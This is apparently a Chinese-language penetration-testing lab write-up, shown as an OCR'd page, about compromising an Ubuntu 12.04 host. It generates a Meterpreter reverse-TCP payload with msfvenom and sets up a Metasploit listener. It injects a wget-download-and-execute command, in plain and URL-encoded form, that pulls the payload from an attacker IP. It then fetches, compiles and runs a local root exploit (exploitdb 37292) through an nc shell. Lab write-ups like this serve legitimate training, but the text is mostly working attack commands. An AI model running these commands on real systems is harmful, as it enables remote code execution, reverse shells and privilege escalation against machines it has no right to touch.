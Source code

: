```
sudo msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -i 10 -f elf -o  /var/www/html/xiao3
```

**linux.rc文件**

```sh
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 4444
exploit
```

- 开启监听

```sh
msfconsole  -qr /home/xiaoxiaoran/shell/linux.rc  
```

- 改cmd=

```
wget 192.168.100.143/xiao3 -O /tmp/xiao3;cd /tmp;chmod +x xiao3;./xiao3 &
```

```
wget%20192.168.100.143%2Fxiao3%20-O%20%2Ftmp%2Fxiao3%3Bcd%20%2Ftmp%3Bchmod%20%2Bx%20xiao3%3B.%2Fxiao3%20%26
```

![image-20210928225146892](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109282251020.png)



> 文件不能执行,失败

## 采用nc的shell提权

```
uname -a

cat /etc/issus
```

> Ubuntu 12.04.5 LTS \n \l

### 查看内核版本,然后再kali使用searchsploit查找是否有exp

```
searchsploit ubuntu 12.04
```

![image-20210928225821334](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109282258735.png)

- 复制文件到www

```
cp /usr/share/exploitdb/exploits/linux/local/37292.c  /var/www/html/37292.c
```

- 在nc shell中执行

```
cd /tmp
wget 192.168.100.143/37292.c
gcc -pthread 37292.c -o exp -lcrypt  
./exp
```

![image-20210928230958304](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109282309464.png)



